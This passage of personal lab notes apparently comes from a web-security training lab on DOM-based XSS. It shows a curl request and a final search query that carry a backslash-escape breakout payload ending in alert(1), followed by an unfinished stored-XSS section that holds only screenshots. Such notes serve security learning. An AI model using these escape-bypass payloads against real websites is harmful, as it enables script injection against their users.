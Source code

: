 Looking at the searchTerm, maybe we can try to do some escaping

On looking at the solution, the \ is not escaped

```json
(base) [hacker@hackerbook Blog]$ curl https://acd61f3d1e31d8f8c0ba44e800d20003.web-security-academy.net/search-results?search=passwordshello\\'"\};alert(1);//' -k 
{"results":[],"searchTerm":"passwordshello\\"};alert(1);//"}(base) [hacker@hackerbook Blog]$ 
(base) [hacker@hackerbook Blog]$ 
```

Final Search Query

```
passwordshello\"};alert(1);//
```

#### Stored DOM XSS

Test 1: didn't work as expected, there may be some escaping needed

![](Pasted%20image%2020220526215517.png)
![](Pasted%20image%2020220526215538.png)

